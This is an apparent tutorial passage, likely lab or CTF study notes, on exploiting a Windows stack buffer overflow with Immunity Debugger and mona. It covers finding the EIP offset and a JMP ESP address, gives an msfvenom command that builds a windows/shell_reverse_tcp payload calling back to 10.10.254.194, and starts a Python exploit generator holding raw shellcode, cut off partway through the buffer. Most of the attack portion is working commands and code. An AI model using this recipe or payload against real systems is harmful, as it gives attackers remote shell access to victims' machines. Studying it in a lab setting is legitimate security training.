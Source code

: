     Immunity help:
    
    - when opening the binary with immunity it will start paused
    - as a quick tip, go to the menu option `Options > Debugging Options > Security` and turn off 'Warn when terminating active processes'. Makes things a bit quicker.
    - Press the 'play' button or F9 to run the program. The 'rewind' icon or Shift+F2 is restart (it will restart paused).
    - the main windows used are 'CPU' which has four panes, and 'Log data'. There is also the command bar at the bottom, where you can invoke mona for example, and the results will show in log data. Otherwise CPU is what I keep up and maximised

3. Proceed to fail the program with your test string. Immunity will flash and pause when the program has crashed. On the CPU pain you are looking for the EIP value. This should contain a number of overwritten characters - copy this and calculate the offset with `pattern_offset.rb` as under Linux. Note that grabbing the EIP rather than the RBP - we are not overwriting the return address here, rather we are forcing a given command to be executed.

4. Next, use mona to find the command we want to execute, specifically a `JMP ESP` call. From the command bar, run `!mona jmp -r esp`. The output will be in the log data window. For my test I had two entries - either could be used. Take the memory address (e.g. 0x080414c3) and reverse it into a string (e.g. `"\xc3\x14\x04\x08"`).

5. Generate some shell code with MSF Venom. Here is a command that will do this while omitting two bad characters: `msfvenom --payload windows/shell_reverse_tcp LHOST=10.10.254.194 LPORT=5555 -b x00x0a --format python`

6. Finally create the exploit python generator. Something like the below:

    ```python
    from struct import pack

    nop = '\x90'

    buf =  b""
    buf += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
    buf += b"\x76\x0e\xab\x95\x90\xaa\x83\xee\xfc\xe2\xf4\x57\x7d"
    buf += b"\x12\xaa\xab\x95\xf0\x23\x4e\xa4\x50\xce\x20\xc5\xa0"
    buf += b"\x21\xf9\x99\x1b\xf8\xbf\x1e\xe2\x82\xa4\x22\xda\x8c"
    buf += b"\x9a\x6a\x3c\x96\xca\xe9\x92\x86\x8b\x54\x5f\xa7\xaa"
    buf += b"\x52\x72\x58\xf9\xc2\x1b\xf8\xbb\x1e\xda\x96\x20\xd9"
    buf += b"\x81\xd2\x48\xdd\x91\x7b\xfa\x1e\xc9\x8a\xaa\x46\x1b"
    buf += b"\xe3\xb3\x76\xaa\xe3\x20\xa1\x1b\xab\x7d\xa4\x6f\x06"
    buf += b"\x6a\x5a\x9d\xab\x6c\xad\x70\xdf\x5d\x96\xed\x52\x90"
    buf += b"\xe8\xb4\xdf\x4f\xcd\x1b\xf2\x8f\x94\x43\xcc\x20\x99"
    buf += b"\xdb\x21\xf3\x89\x91\x79\x20\x91\x1b\xab\x7b\x1c\xd4"
    buf += b"\x8e\x8f\xce\xcb\xcb\xf2\xcf\xc1\x55\x4b\xca\xcf\xf0"
    buf += b"\x20\x87\x7b\x27\xf6\xfd\xa3\x98\xab\x95\xf8\xdd\xd8"
    buf += b"\xa7\xcf\xfe\xc3\xd9\xe7\x8c\xac\x6a\x45\x12\x3b\x94"
    buf += b"\x90\xaa\x82\x51\xc4\xfa\xc3\xbc\x10\xc1\xab\x6a\x45"
    buf += b"\xfa\xfb\xc5\xc0\xea\xfb\xd5\xc0\xc2\x41\x9a\x4f\x4a"
    buf += b"\x54\x40\x07\xc0\xae\xfd\xef\xaa\xab\x94\xf8\xa8\xab"
    buf += b"\x84\xcc\x23\x4d\xff\x80\xfc\xfc\xfd\x09\x0f\xdf\xf4"
    buf += b"\x6f\x7f\x2e\x55\xe4\xa6\x54\xdb\x98\xdf\x47\xfd\x60"
    buf += b"\x1f\x09\xc3\x6f\x7f\xc3\xf6\xfd\xce\xab\x1c\x73\xfd"
    buf += b"\xfc\xc2\xa1\x5c\xc1\x87\xc9\xfc\x49\x68\xf6\x6d\xef"
    buf += b"\xb1\xac\xab\xaa\x18\xd4\x8e\xbb\x53\x90\xee\xff\xc5"
    buf += b"\xc6\xfc\xfd\xd3\xc6\xe4\xfd\xc3\xc3\xfc\xc3\xec\x5c"
    buf += b"\x95\x2d\x6a\x45\x23\x4b\xdb\xc6\xec\x54\xa5\xf8\xa2"
    buf += b"\x2c\x88\xf0\x55\x7e\x2e\x60\x1f\x09\xc3\xf8\x0c\x3e"
    buf += b"\x28\x0d\x55\x7e\xa9\x96\xd6\xa1\x15\x6b\x4a\xde\x90"
    buf += b"\x2b\xed\xb8\xe7\xff\xc0\xab\xc6\x6f\x7f"
